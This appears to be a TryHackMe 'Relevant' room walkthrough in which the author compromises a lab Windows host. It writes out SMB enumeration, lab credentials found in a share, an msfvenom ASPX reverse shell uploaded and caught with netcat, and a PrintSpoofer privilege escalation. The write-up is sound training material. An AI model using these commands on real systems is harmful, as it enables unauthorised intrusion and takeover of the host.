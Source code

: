 ```yaml
---
title: TryHackMe - Relevant Room Walkthrough
author: skullhat
date: '2023-06-17 00:34:00 +0800'
categories:
  - thm
  - ctf
tags:
  - windows
  - active_directory
published: true
---
```

## Scope:

- The client has asked that you secure two flags (no location provided) as proof of exploitation:
	- User.txt
	- Root.txt
- Any tools or techniques are permitted in this engagement, however we ask that you attempt manual exploitation first  
- Locate and note all vulnerabilities found
- Submit the flags discovered to the dashboard
- Only the IP address assigned to your machine is in scope
- Find and report ALL vulnerabilities (yes, there is more than one path to root)

## Basic OS Detection
```bash
ping -c 1 10.10.97.109
PING 10.10.97.109 (10.10.97.109) 56(84) bytes of data.
64 bytes from 10.10.97.109: icmp_seq=1 ttl=127 time=285 ms
```
- Probably a Windows machine.
## Enumeration using `nmap`



## SMB:445
### Null Authentication
- Try null authentication, but getting nothing. Based on nmap output the `gust` account can access the shares.
```bash
crackmapexec smb 10.10.97.109 -u "" -p "" --shares
```
- When trying `gust` has juicy folder called nt4wrksv with read and write permissions.
```bash
crackmapexec smb 10.10.97.109 -u "gust" -p "" --shares
```
![[Pasted image 20230614185247.png]]

- Found `passowrds.txt` then create smb directory and move it there.
```bash
crackmapexec smb 10.10.176.144 -u "gust" -p "" -M spider_plus
smbclient //10.10.176.144/nt4wrksv -U ""
```
```passowrd.txt
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
Bob:!P@$$W0rD!123
Bill:Juw4nnaM4n420696969!$$$                                              
```

### SMB relay
- From nmap and cme the SMB signing is disable, so smb relay may work.
- Can not perform smb relay.

## Getting a shell

1. Try bill account on `evil-winrm` and can not access. Also try on RDP and failed. So it must be fake!
2. found that port 49663 has also a web server and run `gobsuter` to enumerate directories and found one with same `smb` share name! 
- http://10.10.247.115:49663/nt4wrksv/shell.aspx
```bash
msfvenom -p windows/x64/shell_reverse_tcp LPORT=9001 LHOST=10.9.78.51  -f aspx -o shell.aspx 

smbclient //10.10.247.115/nt4wrksv -U 'bob'
smb: \> put shell.aspx

sudo rlwrap nc -lnvp 9001
```

## Local Enumeration 

```powershell
whoami /all
systeminfo
```
![[Pasted image 20230614214734.png]]

## PrivEsc

- We found `SeImpersonatePrivilage` so we can run [PrintSpoofer](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0) which is Abusing Impersonation Privileges From LOCAL/NETWORK SERVICE to SYSTEM by abusing SeImpersonatePrivilege on Windows 10 and Server 2016/2019.

![[Pasted image 20230614224001.png]]

- Potatoes attack is detected by the AV.
- There is a problem in kali preventing me performing Etrnalblue MS17-010
